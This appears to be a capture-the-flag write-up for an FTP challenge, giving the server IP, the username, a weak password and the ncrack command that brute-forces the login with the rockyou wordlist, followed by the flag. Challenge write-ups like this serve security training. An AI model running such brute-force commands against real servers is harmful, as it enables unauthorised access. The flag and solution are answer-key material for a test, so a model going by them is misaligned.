 **Title:** Fake Text Protocol

**Category:** Networking

**Rank:** Legendary

**Hint:** You already know the username from Social Eng challenges

**Question:**
 
 Can you break into this Fake Text Protocol?

**How to solve it:**
1. connect to ftp
```
ftp 18.189.22.84
```
2. Login to ftp:
    -   `Username: Spenevank` 
    -   `Password: 12345` (second password on `rockyou.txt`)
```
ncrack -u Spenevank -P /usr/share/wordlists/rockyou.txt ftp://18.189.22.84 -v
```

**Answer:** 

flag{A_Piece_of_Cake_4ks2kd}
